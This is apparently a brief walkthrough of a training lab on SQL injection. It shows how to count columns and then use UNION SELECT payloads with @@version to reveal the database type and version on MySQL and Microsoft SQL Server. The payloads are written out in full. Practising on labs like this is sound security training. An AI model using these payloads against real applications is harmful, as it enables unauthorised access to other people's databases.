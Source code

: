 ## Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

## Step 1

Check number of column

<img src="../Images/ps1.png" width="550" height="200">

## Step 2

Check in which column we can insert

<img src="../Images/ps2.png" width="550" height="200">

Here we are able to insert in both column

<img src="../Images/ps3.png" width="550" height="200">

## Step 3

Now we use this payload

' UNION SELECT @@version--

Modify query to

' UNION SELECT @@version,NULL#

Or

' UNION SELECT NULL,@@version#

Encode it to URL

<img src="../Images/ps4.png" width="550" height="200">

And we have the answer

<img src="../Images/ps5.png" width="550" height="200">

---

